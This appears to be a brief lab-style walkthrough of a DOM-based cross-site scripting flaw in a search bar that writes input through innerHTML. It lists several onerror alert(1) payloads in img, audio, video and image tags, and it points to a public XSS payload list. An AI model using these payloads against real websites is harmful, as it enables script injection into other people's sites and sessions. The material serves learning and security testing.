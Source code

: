 **Step 1**

Write any text in search bar

In developer we can see problem is in inner HTML

<img src="images/image10.png" alt="third" width="500">

**Step2:**

Now we try to use this exploit that show alert on error.

`<img src=1 href=1 onerror="javascript:alert(1)"></img>`

There are a lot of exploits available on this repositories

[https://github.com/payloadbox/xss-payload-list](https://github.com/payloadbox/xss-payload-list)

As we are triggering an error message so these exploit also work
```
<audio src=1 href=1 onerror="javascript:alert(1)"></audio>  
<video src=1 href=1 onerror="javascript:alert(1)"></video>  
<image src=1 href=1 onerror="javascript:alert(1)"></image>

<img src=1 onerror=alert(1)>
```
